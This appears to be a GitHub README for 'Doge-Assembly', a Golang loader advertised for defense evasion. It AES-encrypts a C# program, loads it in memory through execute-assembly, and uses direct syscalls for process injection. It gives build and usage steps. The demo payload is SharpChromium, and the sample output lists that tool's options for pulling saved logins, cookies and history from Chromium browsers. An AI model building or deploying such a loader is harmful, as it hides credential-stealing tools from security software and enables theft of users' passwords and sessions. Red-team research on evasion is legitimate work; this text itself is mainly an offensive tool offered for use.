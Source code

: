 ![Doge-Assembly](https://socialify.git.ci/timwhitez/Doge-Assembly/image?description=1&font=Raleway&forks=1&issues=1&language=1&logo=https%3A%2F%2Favatars1.githubusercontent.com%2Fu%2F36320909&owner=1&pattern=Circuit%20Board&stargazers=1&theme=Light)

- 🐸Frog For Automatic Scan

- 🐶Doge For Defense Evasion&Offensive Security

# Doge-Assembly
Golang evasion tools, use execute-assembly to excute C# tools

## Intro
Are you still worrying about defense evasion?


## feature
使用Golang execute assembly加载C#程序

C#程序编译为静态资源文件，使用AES加密，使用时最好替换自定义密钥

clr.dll进程注入的过程采用direct syscall进行api调用


### 写的较为仓促，希望能有大佬帮忙优化


## Usage

```
cd encrypt
go build

you can change sharp.exe to your own C# exe file

./encrypt.exe ./sharp.exe

copy sharp.exe.cipher to bin/

cd ..
go-bindata data/
go build

```

```
demo sharp.exe is SharpChromium.exe
```


## ref
资源文件加载:

- https://github.com/go-bindata/go-bindata

golang 的 execute assembly 实现:

- https://github.com/lesnuages/go-execute-assembly

bananaphone, golang hells gate:

- https://github.com/C-Sto/BananaPhone


## screenshot
```
PS D:\Doge-Assembly> .\Doge-Assembly.exe
Decrypt Success...

dll: 19968
bin: 584704

Dynamic Evasion
Please Wait for 10 seconds......
2481571495936
BananaPhone: Allocated 20480bytes at 0x241C9300000
BananaPhone: Wrote 20480bytes at 0x241C9300000
2481571561472
BananaPhone: Allocated 585728bytes at 0x241C9310000
BananaPhone: Wrote 584715bytes at 0x241C9310000
2021/03/09 16:37:29 Got thread handle: 404

out:
[X] Invalid argument passed:

Usage:
    .\SharpChromium.exe arg0 [arg1 arg2 ...]

Arguments:
    all       - Retrieve all Chromium Cookies, History and Logins.
    full      - The same as 'all'
    logins    - Retrieve all saved credentials that have non-empty passwords.
    history   - Retrieve user's history with a count of each time the URL was
                visited, along with cookies matching those items.
    cookies [domain1.com domain2.com] - Retrieve the user's cookies in JSON format.
                                        If domains are passed, then return only
                                        cookies matching those domains. Otherwise,
                                        all cookies are saved into a temp file of
                                        the format "%TEMP%\$browser-cookies.json"


err:

```

# 🚀Star Trend
[![Stargazers over time](https://starchart.cc/timwhitez/Doge-Assembly.svg)](https://starchart.cc/timwhitez/Doge-Assembly)
